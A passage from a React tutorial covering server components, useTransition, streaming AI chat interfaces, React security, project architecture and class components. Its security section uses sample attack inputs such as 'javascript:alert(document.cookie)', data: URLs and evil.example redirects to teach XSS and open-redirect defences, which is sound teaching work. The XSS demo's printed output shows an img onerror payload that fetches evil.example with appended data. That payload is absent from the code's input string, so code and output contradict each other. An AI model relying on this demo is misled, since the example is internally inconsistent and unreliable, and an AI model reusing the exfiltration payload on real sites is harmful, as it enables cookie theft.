  updateTag(`cart-${session.userId}`);                           // 4. refresh cached data that shows the cart
  return { message: "Added ✓" };
}
```

**Passing server content into client components.** A client component can't import a server component, but it **can** receive one as `children`, so the server part still renders on the server:

<!-- no-run (Next.js App Router project) -->
```tsx
// client: collapsible panel (needs state)
"use client";
import { useState, type ReactNode } from "react";
export function Collapsible({ title, children }: { title: string; children: ReactNode }) {
  const [open, setOpen] = useState(false);
  return <section><button onClick={() => setOpen(!open)}>{title}</button>{open && children}</section>;
}

// server: page passes server-rendered content as children
// <Collapsible title="Nutrition facts"><NutritionTable sku={sku} /></Collapsible>
```

**The RSC payload in action.** Even without Next.js, you can see the idea: the server turns a component tree into **serialisable data**, and props passed to client components must be serialisable (no functions, class instances or symbols). Functions can't be sent across that boundary, except Server Functions:

```tsx
import { renderToString } from "react-dom/server";

const props = { sku: "TEA-250", pricePaise: 18000, tags: ["tea"], addedAt: new Date("2026-01-01T00:00:00Z") };
const sentToClient = JSON.parse(JSON.stringify(props));            // roughly what crossing the boundary does
console.log(sentToClient, "| Date survived as:", typeof sentToClient.addedAt);
console.log(renderToString(<p>{props.tags.join(", ")}</p>));
```

**Output:**

```text
{
  sku: 'TEA-250',
  pricePaise: 18000,
  tags: [ 'tea' ],
  addedAt: '2026-01-01T00:00:00.000Z'
} | Date survived as: string
<p>tea</p>
```

(RSC's real format supports more than JSON, including `Date`, `Map`, `Set`, promises and JSX, but functions and class instances still can't be passed to client components.)

**Common mistakes:**

- Adding `"use client"` to the top of everything (loses the benefits: more JavaScript, no direct data access). Push it down to the small interactive leaves.
- Importing server-only code (DB clients, secrets) into a client component. Use the `server-only` package to make that a build error.
- Passing functions or non-serialisable objects as props from server to client components.
- Treating Server Functions as private: they're HTTP endpoints anyone can call. Authenticate, authorise and validate every time.
- Fetching in client components with `useEffect` what a server component could fetch directly.

### Practice

1. You're building a product listing page with filters (category, price range), a "compare" checkbox on each card, and personalised "recommended for you" at the bottom. Which parts are server components, which are client components, and where do you put Suspense?

<details>
<summary><b>Answer</b></summary>

The **page**, the **product grid** and **cards** are server components (they fetch and render data; filters come from `searchParams` in the URL so the server renders the filtered list). The **filter controls** are a small client component that updates the URL (`useRouter().push("?category=tea")`), and the **compare checkbox** is a client component (local or store state). "Recommended for you" is an **async server component** that reads the user's session, wrapped in its own **`<Suspense>`** so the main grid streams first. Adding to cart uses a **Server Function**.

</details>

**Learn more:** [react.dev: Server Components](https://react.dev/reference/rsc/server-components) · [react.dev: Server Functions](https://react.dev/reference/rsc/server-functions) · [Next.js App Router docs](https://nextjs.org/docs/app) · [Next.js: use cache](https://nextjs.org/docs/app/api-reference/directives/use-cache)

---

## 28. Concurrent Rendering: useTransition and useDeferredValue

### Theory

> **In simple words:** some updates are **urgent** (the letter you just typed must appear now) and some can **wait a moment** (re-filtering a 10,000-row table, switching to a heavy tab). **Concurrent rendering** lets React work on the non-urgent update **in the background** and throw that work away if something more urgent happens, so typing never feels stuck. You mark updates as non-urgent with **`useTransition`** / `startTransition`, or defer a value with **`useDeferredValue`**.

| API | Use when | Gives you |
|---|---|---|
| `const [isPending, startTransition] = useTransition()` | You control the `setState` that causes the slow render (tab switch, filter change, navigation) | `isPending` to show a subtle "updating…" state while keeping the old UI visible |
| `startTransition(async () => {...})` | Async work (React 19 **actions**): pending state lasts until the async function finishes | Same, for data mutations |
| `const deferred = useDeferredValue(value)` | You receive a value (prop or state) and a slow child renders from it | A value that "lags behind" during fast changes; compare `value !== deferred` for a stale indicator |
| `<Suspense>` + transitions | Navigation that loads data | Keeps showing the current page instead of flashing a spinner |

**How it works:** a transition render is **interruptible**. If you type again while React is rendering the slow list for the previous query, React abandons that work and starts over with the latest value. Without transitions, each keystroke would block the main thread until the slow render finished (hurting **INP**, the responsiveness metric).

**What transitions don't do:** they don't make slow components faster, don't debounce network requests, and can't be used for controlled input values themselves (the input's own state must stay urgent). Combine with memoisation and virtualisation for heavy lists.

### React

**`useDeferredValue`**: the input updates immediately; the slow list renders from the deferred value, and shows a "stale" hint while catching up:

```tsx
import { useDeferredValue, useState, useTransition, memo, act } from "react";
import { render, screen, fireEvent } from "@testing-library/react";

const ITEMS = Array.from({ length: 3000 }, (_, i) => `Item ${i}`);

const SlowList = memo(function SlowList({ query }: { query: string }) {
  const start = performance.now();
  while (performance.now() - start < 3) { /* simulate a slow render: 3 ms of work */ }
  const matches = ITEMS.filter(item => item.includes(query));
  return <p data-testid="list">{matches.length} matches for "{query}"</p>;
});

function Search() {
  const [query, setQuery] = useState("");
  const deferredQuery = useDeferredValue(query);
  const isStale = query !== deferredQuery;
  return (
    <div>
      <input aria-label="search" value={query} onChange={e => setQuery(e.target.value)} />
      <div style={{ opacity: isStale ? 0.5 : 1 }} data-stale={isStale}>
        <SlowList query={deferredQuery} />
      </div>
    </div>
  );
}

render(<Search />);
await act(async () => {
  fireEvent.change(screen.getByLabelText("search"), { target: { value: "Item 12" } });
});
console.log("input:", (screen.getByLabelText("search") as HTMLInputElement).value, "|", screen.getByTestId("list").textContent,
  "| stale:", screen.getByTestId("list").parentElement!.dataset.stale);
```

**Output:**

```text
input: Item 12 | 111 matches for "Item 12" | stale: false
```

In a browser you'd see the input update instantly while the list catches up (dimmed while stale). Here, `act` waits until React has finished all the work, so we see the final state: 111 matches (`Item 12`, `Item 120`–`129`, `Item 1200`–`1299`).

**`useTransition` for a tab switch**: the heavy tab renders in the background; `isPending` lets the old tab stay visible with a subtle indicator instead of freezing:

```tsx
function Tabs() {
  const [tab, setTab] = useState<"about" | "reviews">("about");
  const [isPending, startTransition] = useTransition();
  return (
    <div>
      <button onClick={() => startTransition(() => setTab("reviews"))}>Reviews {isPending ? "⏳" : ""}</button>
      {tab === "about" ? <p>Hand-blended Assam tea.</p> : <SlowList query="Item 9" />}
    </div>
  );
}

render(<Tabs />);
await act(async () => { fireEvent.click(screen.getByText(/Reviews/)); });
console.log(screen.getByTestId("list").textContent, "| button:", screen.getByRole("button").textContent);
```

**Output:**

```text
111 matches for "Item 9" | button: Reviews 
```

**Async transitions (actions)**: `isPending` stays true until the async work ends, which is how React 19 forms get their pending state:

```tsx
const sleep = (ms: number) => new Promise(r => setTimeout(r, ms));

function SaveButton() {
  const [isPending, startTransition] = useTransition();
  const [saved, setSaved] = useState(0);
  return (
    <button disabled={isPending} onClick={() => startTransition(async () => {
      await sleep(30);                         // e.g. await saveToServer()
      startTransition(() => setSaved(s => s + 1));
    })}>
      {isPending ? "Saving…" : `Save (${saved})`}
    </button>
  );
}

render(<SaveButton />);
fireEvent.click(screen.getByRole("button"));
console.log((await screen.findByText("Saving…")).textContent);
console.log((await screen.findByText("Save (1)")).textContent);
```

**Output:**

```text
Saving…
Save (1)
```

(The inner `startTransition` around the `setState` after `await` is currently required: React can't yet keep track of the transition across an `await`.)

**Common mistakes:**

- Wrapping the input's own `setState` in `startTransition` (typing becomes laggy). Keep the input urgent; defer what's derived from it.
- Expecting transitions to reduce network calls (they don't debounce; use a debounced value or a query library for that).
- Using transitions to hide a component that's simply too slow; also memoise, virtualise or move work off the main thread (Web Workers).

### Practice

1. In `Search`, why is `SlowList` wrapped in `memo`? What would happen with `useDeferredValue` if it weren't?

<details>
<summary><b>Answer</b></summary>

`useDeferredValue` first re-renders with the **old** deferred value (urgent render: only the input changes), then renders again in the background with the new value. For the urgent render to be cheap, `SlowList` must be able to **skip** re-rendering when its `query` prop (the old deferred value) hasn't changed, which is what `memo` does. Without `memo`, the slow list would re-render during the urgent render too, and typing would lag just as before.

</details>

**Learn more:** [react.dev: useTransition](https://react.dev/reference/react/useTransition) · [react.dev: useDeferredValue](https://react.dev/reference/react/useDeferredValue) · [web.dev: Interaction to Next Paint](https://web.dev/articles/inp)

---

## 29. Building Streaming UIs: Real-Time Updates and AI Chat Interfaces

### Theory

> **In simple words:** modern apps show data **as it arrives**: chat messages, live order tracking, notifications, and above all **AI responses that appear word by word**. Instead of waiting for a complete response, the browser reads a **stream**: the server sends small chunks over one HTTP response (or a WebSocket), and React appends each chunk to state so the UI updates continuously.

**Transport options:**

| Transport | Direction | Use for |
|---|---|---|
| `fetch` + `response.body` (ReadableStream) | Server → client, one request | Streaming an LLM answer to a `POST` request |
| **Server-Sent Events** (`text/event-stream`, `EventSource`) | Server → client, auto-reconnect | Notifications, progress, LLM token streams (most LLM APIs use SSE) |
| **WebSocket** | Both ways | Chat between users, collaborative editing, games |
| Polling (TanStack Query `refetchInterval`) | Client asks repeatedly | Simple dashboards, order status every 10 s |

**A good AI chat UI in 2026 handles:** streaming tokens as they arrive, a **Stop** button (abort the request), auto-scroll that doesn't fight the user, **Markdown** rendering done **safely** (no raw HTML from the model), error and retry states, keeping the conversation history, and accessibility (`aria-live="polite"` so screen readers announce new content without interrupting). Libraries like the **Vercel AI SDK** (`useChat`), **assistant-ui** and **CopilotKit** provide this; understanding the manual version lets you debug them.

**Performance tip:** tokens can arrive dozens of times per second. Append to state with an updater (`setText(t => t + chunk)`); React batches updates. For very fast streams, buffer and flush on `requestAnimationFrame`, and keep the message list memoised so only the streaming message re-renders.

**The backend side** (`llm-engineering.md` shows the API calls): your server calls the LLM with streaming enabled and forwards chunks to the browser. Never call LLM APIs directly from the browser with your API key.

### React

A local server that streams a "model" answer as **Server-Sent Events**, one word every 15 ms:

```tsx
import { createServer } from "node:http";

const server = createServer(async (req, res) => {
  res.writeHead(200, { "content-type": "text/event-stream", "cache-control": "no-cache" });
  const words = "Masala chai is black tea simmered with milk, sugar, ginger, cardamom and other spices.".split(" ");
  for (const word of words) {
    if (res.destroyed) return;                                  // client aborted
    res.write(`data: ${JSON.stringify({ delta: word + " " })}\n\n`);
    await new Promise(r => setTimeout(r, 15));
  }
  res.end("data: [DONE]\n\n");
});
await new Promise<void>(r => server.listen(0, r));
const CHAT_URL = `http://localhost:${(server.address() as { port: number }).port}/chat`;
console.log("streaming server ready");
```

**Output:**

```text
streaming server ready
```

**A streaming chat hook and UI** with a Stop button. `fetch` reads the SSE stream chunk by chunk; each `data:` line adds a delta to the last message:

```tsx
import { useRef, useState, act } from "react";
import { render, screen, fireEvent } from "@testing-library/react";

type Message = { role: "user" | "assistant"; text: string };

function useStreamingChat(url: string) {
  const [messages, setMessages] = useState<Message[]>([]);
  const [status, setStatus] = useState<"idle" | "streaming" | "stopped" | "error">("idle");
  const controllerRef = useRef<AbortController | null>(null);

  async function send(prompt: string) {
    const controller = new AbortController();
    controllerRef.current = controller;
    setMessages(m => [...m, { role: "user", text: prompt }, { role: "assistant", text: "" }]);
    setStatus("streaming");
    try {
      const res = await fetch(url, { method: "POST", body: JSON.stringify({ prompt }), signal: controller.signal });
      const reader = res.body!.pipeThrough(new TextDecoderStream()).getReader();
      let buffer = "";
      for (;;) {
        const { done, value } = await reader.read();
        if (done) break;
        buffer += value;
        const events = buffer.split("\n\n");
        buffer = events.pop()!;                                 // keep an incomplete event for next time
        for (const event of events) {
          const data = event.replace(/^data: /, "");
          if (data === "[DONE]") continue;
          const { delta } = JSON.parse(data) as { delta: string };
          setMessages(m => m.map((msg, i) => (i === m.length - 1 ? { ...msg, text: msg.text + delta } : msg)));
        }
      }
      setStatus("idle");
    } catch (e) {
      setStatus(controller.signal.aborted ? "stopped" : "error");
    }
  }

  return { messages, status, send, stop: () => controllerRef.current?.abort() };
}

function Chat() {
  const { messages, status, send, stop } = useStreamingChat(CHAT_URL);
  return (
    <div>
      <ol aria-live="polite">
        {messages.map((m, i) => <li key={i} data-role={m.role}>{m.role === "user" ? "You: " : "AI: "}{m.text}</li>)}
      </ol>
      <form action={formData => { void send(String(formData.get("prompt"))); }}>
        <input name="prompt" aria-label="prompt" />
        <button type="submit" disabled={status === "streaming"}>Send</button>
        {status === "streaming" && <button type="button" onClick={stop}>Stop</button>}
      </form>
      <small>{status}</small>
    </div>
  );
}

const lastAnswer = () => [...document.querySelectorAll('li[data-role="assistant"]')].at(-1)?.textContent ?? "";
render(<Chat />);

fireEvent.change(screen.getByLabelText("prompt"), { target: { value: "What is masala chai?" } });
fireEvent.click(screen.getByText("Send"));
await act(() => new Promise(r => setTimeout(r, 80)));
const wordsSoFar = lastAnswer().split(" ").length - 2;
console.log("while streaming: partial answer?", wordsSoFar > 0 && wordsSoFar < 15, "| status:", document.querySelector("small")!.textContent);
await screen.findByText("idle");
console.log("finished:", lastAnswer());

fireEvent.change(screen.getByLabelText("prompt"), { target: { value: "Again please" } });
fireEvent.click(screen.getByText("Send"));
await act(() => new Promise(r => setTimeout(r, 50)));
fireEvent.click(screen.getByText("Stop"));
await screen.findByText("stopped");
const stoppedAnswer = lastAnswer();
await act(() => new Promise(r => setTimeout(r, 100)));
console.log("stopped early:", stoppedAnswer.length < "AI: ".length + 40, "| no more text after stop:", lastAnswer() === stoppedAnswer);
server.close();
```

**Output:**

```text
while streaming: partial answer? true | status: streaming
finished: AI: Masala chai is black tea simmered with milk, sugar, ginger, cardamom and other spices. 
stopped early: true | no more text after stop: true
```

(The exact number of words received at any moment depends on timing, so the example checks the behaviour: the answer is partial while streaming, complete at the end, and stops growing after **Stop**.)

**Rendering model output safely.** LLM output is **untrusted input** (prompt injection can make a model output anything). Render it as text, or with a Markdown renderer that **doesn't allow raw HTML** (e.g. `react-markdown` without `rehype-raw`), and sanitise links:

<!-- no-run (requires react-markdown) -->
```tsx
import Markdown from "react-markdown";

function AssistantMessage({ text }: { text: string }) {
  return (
    <Markdown
      skipHtml                                      // ignore raw HTML in the model's output
      components={{ a: props => <a {...props} target="_blank" rel="noopener noreferrer nofollow" /> }}
    >
      {text}
    </Markdown>
  );
}
```

**Common mistakes:**

- Calling an LLM API from the browser with a secret key (anyone can read it). Proxy through your server.
- Replacing the whole message list on every token (slow); update only the last message and memoise the rest.
- No Stop button or abort on unmount (tokens and money wasted, state updates after unmount).
- `dangerouslySetInnerHTML` with model output (XSS).
- Parsing SSE by splitting on newlines without handling chunks that cut an event in half (buffer until `\n\n`).

### Practice

1. How would you make the chat auto-scroll to the newest text **only if** the user is already near the bottom (so it doesn't yank them away while they read earlier messages)? Describe the approach.

<details>
<summary><b>Answer</b></summary>

Keep a ref to the scroll container. Before each update (or in an `onScroll` handler), compute whether the user is near the bottom: `el.scrollHeight - el.scrollTop - el.clientHeight < 40`. Store that in a ref (`stickToBottom.current`). In an effect that runs when messages change, if `stickToBottom.current` is true, set `el.scrollTop = el.scrollHeight` (or call `scrollIntoView` on an end marker). If the user scrolls up, the flag becomes false and auto-scroll pauses; show a "↓ New messages" button to jump back down.

</details>

**Learn more:** [MDN: Using readable streams](https://developer.mozilla.org/en-US/docs/Web/API/Streams_API/Using_readable_streams) · [MDN: Server-sent events](https://developer.mozilla.org/en-US/docs/Web/API/Server-sent_events) · [Vercel AI SDK: useChat](https://ai-sdk.dev/docs/ai-sdk-ui/chatbot) · [react-markdown](https://github.com/remarkjs/react-markdown)

---

## 30. Security in React Apps

### Theory

> **In simple words:** React protects you from the most common web attack, **XSS** (cross-site scripting), by escaping text you render. But there are escape hatches that turn the protection off (`dangerouslySetInnerHTML`, `javascript:` URLs, spreading untrusted props), and many risks live **outside** rendering: tokens in `localStorage`, secrets in the client bundle, unprotected Server Functions, and vulnerable npm packages. Rule one: **everything in the browser is public and can be modified by the user**; real security checks happen on the server.

| Risk | Example | Defence |
|---|---|---|
| XSS via raw HTML | `<div dangerouslySetInnerHTML={{ __html: comment }} />` | Avoid; if needed, sanitise with **DOMPurify**; Content Security Policy |
| XSS via URLs | `<a href={user.website}>` with `javascript:alert(1)` | Allow only `http:`/`https:` (React 19 blocks `javascript:` URLs in `href`/`src`, but validate anyway) |
| Prop spreading | `<div {...userControlledObject}>` can inject `dangerouslySetInnerHTML` or handlers | Never spread untrusted objects onto elements |
| Secrets in the bundle | `VITE_STRIPE_SECRET` / `NEXT_PUBLIC_API_KEY` used for a **secret** | Only public keys in client env vars (`VITE_*`, `NEXT_PUBLIC_*` are embedded in JS); keep secrets on the server |
| Token theft | JWT in `localStorage` readable by any injected script | Prefer **HttpOnly, Secure, SameSite** cookies set by the server |
| CSRF | Another site submits a form to your API with the user's cookies | `SameSite=Lax/Strict` cookies, CSRF tokens, checking `Origin` |
| Broken access control | Hiding the "Delete" button but not checking permissions on the server | Authorise every request/Server Function on the server; UI checks are cosmetic |
| Open redirects | `navigate(params.get("next"))` to an attacker's site | Allow only relative paths or an allow-list |
| Supply chain | Malicious or vulnerable npm packages | Lock files, `npm audit`, Dependabot/Renovate, fewer dependencies, review install scripts |
| Clickjacking | Your page in a hidden iframe | `Content-Security-Policy: frame-ancestors 'self'` |

**Defence in depth:** escape by default, sanitise when you must render HTML, add a strict **Content Security Policy** (blocks inline scripts and unknown origins), validate all input on the server, and keep dependencies updated.

### React

**React escapes text; `dangerouslySetInnerHTML` doesn't.** DOMPurify-style sanitising (simulated here with a tiny allow-list) keeps safe formatting and removes scripts and event handlers:

```tsx
import { render } from "@testing-library/react";

const comment = `Great tea! <b>5 stars</b><script>alert(1)</script>`;

function SafeComment({ text }: { text: string }) {
  return <p>{text}</p>;                                      // escaped: shown as text
}
function DangerousComment({ html }: { html: string }) {
  return <p dangerouslySetInnerHTML={{ __html: html }} />;    // ❌ runs attacker markup
}

// Minimal allow-list sanitiser for the demo; use DOMPurify in real code
function sanitize(html: string): string {
  const template = document.createElement("template");
  template.innerHTML = html;
  const allowed = new Set(["B", "I", "EM", "STRONG", "P", "BR"]);
  for (const el of [...template.content.querySelectorAll("*")]) {
    if (!allowed.has(el.tagName)) el.replaceWith(document.createTextNode(el.tagName === "SCRIPT" ? "" : el.textContent ?? ""));
    else for (const attr of [...el.attributes]) el.removeAttribute(attr.name);
  }
  return template.innerHTML;
}

console.log("escaped:  ", render(<SafeComment text={comment} />).container.innerHTML.slice(0, 70) + "…");
const dangerous = render(<DangerousComment html={comment} />).container;
console.log("dangerous:", "img with onerror present →", !!dangerous.querySelector("img[onerror]"));
console.log("sanitised:", render(<DangerousComment html={sanitize(comment)} />).container.innerHTML);
```

**Output:**

```text
escaped:   <p>Great tea! &lt;img src=x onerror="fetch('https://evil.example/?c='+…
dangerous: img with onerror present → true
sanitised: <p>Great tea! <b>5 stars</b></p>
```

**URLs from users**: allow only safe protocols. React 19 already refuses to render `javascript:` URLs, but validating keeps you safe with any library and in older code:

```tsx
function safeUrl(input: string): string | undefined {
  try {
    const url = new URL(input, "https://chaipoint.example");
    return url.protocol === "https:" || url.protocol === "http:" ? url.href : undefined;
  } catch {
    return undefined;
  }
}

function Website({ url }: { url: string }) {
  const href = safeUrl(url);
  return href ? <a href={href} rel="noopener noreferrer nofollow" target="_blank">Website</a> : <span>Invalid link</span>;
}

for (const url of ["https://asha.example.com", "javascript:alert(document.cookie)", "/orders/90312", "data:text/html,<script>alert(1)</script>"]) {
  console.log(url.slice(0, 32).padEnd(33), "→", render(<Website url={url} />).container.innerHTML);
}
```

**Output:**

```text
https://asha.example.com          → <a href="https://asha.example.com/" rel="noopener noreferrer nofollow" target="_blank">Website</a>
javascript:alert(document.cookie  → <span>Invalid link</span>
/orders/90312                     → <a href="https://chaipoint.example/orders/90312" rel="noopener noreferrer nofollow" target="_blank">Website</a>
data:text/html,<script>alert(1)<  → <span>Invalid link</span>
```

**Open redirects after login**: only follow relative paths within your site:

```tsx
function safeNext(next: string | null): string {
  if (!next || !next.startsWith("/") || next.startsWith("//") || next.includes("\\")) return "/";
  return next;
}
console.log(["/orders?page=2", "https://evil.example", "//evil.example", "/\\evil.example", null].map(safeNext));
```

**Output:**

```text
[ '/orders?page=2', '/', '/', '/', '/' ]
```

**Environment variables**: anything with the public prefix is **compiled into the JavaScript** that every visitor downloads:

<!-- no-run (configuration) -->
```text
# .env (Vite)
VITE_PUBLIC_MAPS_KEY=pk_live_abc123     # OK: a publishable key, restricted by domain
VITE_OPENAI_KEY=sk-...                  # ❌ NEVER: anyone can read it in DevTools → call the LLM from your server
DATABASE_URL=postgres://...             # server-only (no prefix): not exposed to the client
```

**Common mistakes:**

- Trusting the client: hidden buttons, disabled fields and client-side validation are not security.
- Storing access tokens in `localStorage`.
- `dangerouslySetInnerHTML` with CMS, user or LLM content without sanitising.
- Secret keys in client-side env vars or committed `.env` files.
- Unauthenticated Server Functions / API routes because "only our UI calls them".

### Practice

1. A product description comes from your CMS as HTML with bold text, lists and links. Describe a safe way to render it, including links.

<details>
<summary><b>Answer</b></summary>

Sanitise it with **DOMPurify** configured with an allow-list (e.g. `ALLOWED_TAGS: ["b", "strong", "i", "em", "ul", "ol", "li", "p", "a", "br"]`, `ALLOWED_ATTR: ["href"]`), and add a hook that forces links to `http(s):` only and adds `rel="noopener noreferrer"`. Render the sanitised string with `dangerouslySetInnerHTML` in one small, reviewed component (e.g. `<CmsHtml html={...} />`), ideally sanitising on the server when saving **and** rendering. Back it up with a Content Security Policy that forbids inline scripts. Alternatively, store content as Markdown or structured JSON (e.g. Portable Text) and render it with components, avoiding raw HTML entirely.

</details>

---

### ✅ Part 5 checkpoint

Without looking, can you:

- [ ] Compare CSR, SSR, SSG, ISR and streaming, explain hydration and avoid hydration mismatches?
- [ ] Explain Server vs Client Components, write a Server Function safely, and structure a Next.js App Router page?
- [ ] Keep the UI responsive with `useTransition` and `useDeferredValue`?
- [ ] Build a streaming UI (SSE/fetch streams) with a Stop button, and render model output safely?
- [ ] Prevent XSS, unsafe URLs, open redirects and leaked secrets in React apps?

**Learn more:** [OWASP: XSS prevention cheat sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) · [DOMPurify](https://github.com/cure53/DOMPurify) · [MDN: Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) · [Next.js: data security](https://nextjs.org/docs/app/guides/data-security)

---

# Part 6 — Advanced: Architecture and Production

> **Goal:** Structure large codebases, read legacy class components, and ship fast, monitored React apps.  
> **You need:** Parts 1–5.

---

## 31. Architecture: Project Structure, Design Systems and Scaling a Codebase

### Theory

> **In simple words:** small apps survive any structure; large apps (many screens, many developers, years of changes) need **clear boundaries**. Good React architecture means: code for one feature lives together, components are layered from generic to specific, data access is separated from UI, and there are rules about what may import what.

**Feature-based folders** (recommended over "all components in one folder"):

```text
src/
  app/                 routes / pages, providers, app shell (framework decides some of this)
  features/
    cart/
      components/      CartDrawer.tsx, CartLine.tsx
      hooks/           useCart.ts
      api/             cartApi.ts, queries.ts (TanStack Query keys + hooks)
      model/           cart.ts (types, Zod schemas, pure logic like totals)
      index.ts         the feature's public API (what other features may import)
    checkout/ …
    catalog/ …
  shared/
    ui/                Button, Input, Dialog (design system; no business logic)
    lib/               formatters, fetch client, date utils
    config/            env parsing (validated), constants
  test/                test utilities, MSW handlers
```

**Layers and rules:**

| Layer | Contains | May import |
|---|---|---|
| `shared/ui` | Generic, accessible components (design system) | Nothing app-specific |
| `shared/lib` | Pure helpers, API client | `shared` only |
| `features/*` | Business features: UI + hooks + API + model | `shared`, other features only through their `index.ts` |
| `app` / routes | Composition of features into pages | Everything |

Enforce the rules with ESLint (`import/no-restricted-paths`, `eslint-plugin-boundaries`) or tools like **Feature-Sliced Design**; large companies use monorepos (Turborepo, Nx) with packages for the design system and shared libraries.

**Component design principles:**

- **Presentational vs container logic**: keep most components "dumb" (props in, JSX out); put data fetching and state in hooks or route loaders.
- **Colocation**: keep styles, tests, stories and hooks next to the component that uses them.
- **Design system**: one set of accessible primitives (often **shadcn/ui** or **Radix**/**React Aria** + Tailwind tokens), documented in **Storybook**, so screens are consistent and fast to build.
- **Types at the edges**: Zod schemas for API data in `model/`, inferred types everywhere else.
- **Explicit public APIs**: each feature exports only what others need; internals can change freely.

**Other decisions that shape a React codebase:** a framework (Next.js vs Vite SPA vs React Router), the server-state approach (loaders/RSC vs TanStack Query), global state (minimal; Zustand), forms (React Hook Form or actions), styling (Tailwind vs CSS Modules), i18n (**react-i18next**, **FormatJS/react-intl**, `Intl` APIs), feature flags, error monitoring (Sentry), analytics, and testing strategy.

### React

**A feature's model and hook, separated from its UI**: pure logic is trivially testable; the UI stays thin:

```tsx
// @filename: features/cart/model.ts
import { z } from "zod";

export const CartLineSchema = z.object({ sku: z.string(), name: z.string(), pricePaise: z.number().int().nonnegative(), qty: z.number().int().positive() });
export type CartLine = z.infer<typeof CartLineSchema>;

export const FREE_DELIVERY_ABOVE_PAISE = 49900;
export const DELIVERY_FEE_PAISE = 4000;

export function cartTotals(lines: CartLine[]) {
  const subtotal = lines.reduce((sum, l) => sum + l.pricePaise * l.qty, 0);
  const delivery = subtotal === 0 || subtotal >= FREE_DELIVERY_ABOVE_PAISE ? 0 : DELIVERY_FEE_PAISE;
  return { subtotal, delivery, total: subtotal + delivery, missingForFreeDelivery: Math.max(0, FREE_DELIVERY_ABOVE_PAISE - subtotal) };
}
```

```tsx
// @filename: shared/lib/money.ts
export const formatPaise = (paise: number) =>
  new Intl.NumberFormat("en-IN", { style: "currency", currency: "INR" }).format(paise / 100);
```

```tsx
// @filename: features/cart/CartSummary.tsx
import { cartTotals, type CartLine } from "./model.js";
import { formatPaise } from "../../shared/lib/money.js";

export function CartSummary({ lines }: { lines: CartLine[] }) {
  const t = cartTotals(lines);
  return (
    <dl>
      <dt>Subtotal</dt><dd>{formatPaise(t.subtotal)}</dd>
      <dt>Delivery</dt><dd>{t.delivery ? formatPaise(t.delivery) : "Free"}</dd>
      <dt>Total</dt><dd>{formatPaise(t.total)}</dd>
      {t.missingForFreeDelivery > 0 && <p>Add {formatPaise(t.missingForFreeDelivery)} more for free delivery</p>}
    </dl>
  );
}
```

```tsx
import { render } from "@testing-library/react";
import { cartTotals, CartLineSchema } from "./features/cart/model.js";
import { CartSummary } from "./features/cart/CartSummary.js";

const lines = [{ sku: "TEA-250", name: "Masala chai", pricePaise: 18000, qty: 2 }];
console.log(cartTotals(lines));                                    // pure logic: test without React
console.log(render(<CartSummary lines={lines} />).container.textContent);
console.log(CartLineSchema.safeParse({ sku: "X", name: "Bad", pricePaise: -5, qty: 0 }).success);   // API data validated at the edge
```

**Output:**

```text
{
  subtotal: 36000,
  delivery: 4000,
  total: 40000,
  missingForFreeDelivery: 13900
}
Subtotal₹360.00Delivery₹40.00Total₹400.00Add ₹139.00 more for free delivery
false
```

**Common mistakes:**

- One giant `components/` folder with hundreds of files and no ownership.
- Business logic inside JSX event handlers, duplicated across screens. Put it in `model/` functions and hooks.
- Features reaching into each other's internals (`../../checkout/components/internal/Foo`). Import from the feature's public `index.ts`.
- A design system that isn't accessible or documented, so teams build their own buttons.
- Premature abstraction: building a "generic framework" before you have three real use cases.

### Practice

1. Where would you put: (a) a `useDebouncedValue` hook, (b) the Zod schema for the orders API, (c) a `<Dialog>` component, (d) the checkout page route, (e) a function computing GST for an order?

<details>
<summary><b>Answer</b></summary>

(a) `shared/lib/hooks` (generic, no business knowledge). (b) `features/orders/model.ts` (or `api/`), next to the feature that owns the API. (c) `shared/ui/Dialog.tsx` (design system). (d) `app/checkout/page.tsx` (framework route), composing components from `features/checkout`. (e) `features/checkout/model.ts` (pure business logic, unit-tested), or `shared/lib` if several features need the same tax rules.

</details>

**Learn more:** [Bulletproof React](https://github.com/alan2207/bulletproof-react) · [Feature-Sliced Design](https://feature-sliced.design/) · [Storybook](https://storybook.js.org/) · [react-i18next](https://react.i18next.com/)

---

## 32. Legacy React: Class Components, Lifecycle Methods and HOCs

### Theory

> **In simple words:** before hooks (2019), React components with state were written as **classes**. New code uses function components, but many existing codebases (and interview questions) still contain classes, lifecycle methods like `componentDidMount`, and **higher-order components** (HOCs). You need to **read** them and know how they map to hooks, and error boundaries still require a class.

**Lifecycle methods and their hook equivalents:**

| Class | Runs | Hooks equivalent |
|---|---|---|
| `constructor` / `state = {...}` | Once, before first render | `useState(initial)` |
| `render()` | Every render | The function body |
| `componentDidMount()` | After first render | `useEffect(() => {...}, [])` |
| `componentDidUpdate(prevProps, prevState)` | After updates | `useEffect(() => {...}, [deps])` |
| `componentWillUnmount()` | Before removal | The effect's cleanup function |
| `shouldComponentUpdate` / `PureComponent` | Before re-render | `memo` |
| `getDerivedStateFromError` + `componentDidCatch` | On child render errors | No hook equivalent (use a class or `react-error-boundary`) |
| `getSnapshotBeforeUpdate` | Before DOM update (e.g. scroll position) | `useLayoutEffect` (roughly) |
| `this.setState(partial)` | Merges into state | `setState(full)` replaces (spread objects yourself) |

**Old patterns you'll meet:**

- **Higher-order components (HOCs)**: `export default withRouter(connect(mapState)(withAuth(Profile)))`, functions that wrap a component to inject props. Replaced by hooks (`useNavigate`, `useSelector`, `useAuth`).
- **Render props** as a way to share logic (`<Mouse render={pos => ...} />`), largely replaced by custom hooks (still great for rendering customisation).
- `forwardRef` (unnecessary since React 19: `ref` is a prop), `defaultProps` on function components (removed in React 19; use default parameters), `propTypes` (removed; use TypeScript), string refs and legacy context (removed).

**Migrating:** convert leaf components first, one at a time; keep class error boundaries; replace HOCs with hooks as you touch the code; add tests before refactoring.

### React

A class component with state and lifecycle methods, next to its hooks version; both behave the same:

```tsx
import { Component, useEffect, useState } from "react";
import { render, screen, fireEvent } from "@testing-library/react";

const log: string[] = [];

class ClassCounter extends Component<{ step: number }, { count: number }> {
  state = { count: 0 };
  componentDidMount() { log.push("class: mounted"); }
  componentDidUpdate(_prev: { step: number }, prevState: { count: number }) {
    if (prevState.count !== this.state.count) log.push(`class: count ${prevState.count} → ${this.state.count}`);
  }
  componentWillUnmount() { log.push("class: unmounting"); }
  increment = () => this.setState(s => ({ count: s.count + this.props.step }));   // arrow keeps `this`
  render() {
    return <button onClick={this.increment}>class {this.state.count}</button>;
  }
}

function HookCounter({ step }: { step: number }) {
  const [count, setCount] = useState(0);
  useEffect(() => {
    log.push("hooks: mounted");
    return () => { log.push("hooks: unmounting"); };
  }, []);
  useEffect(() => {
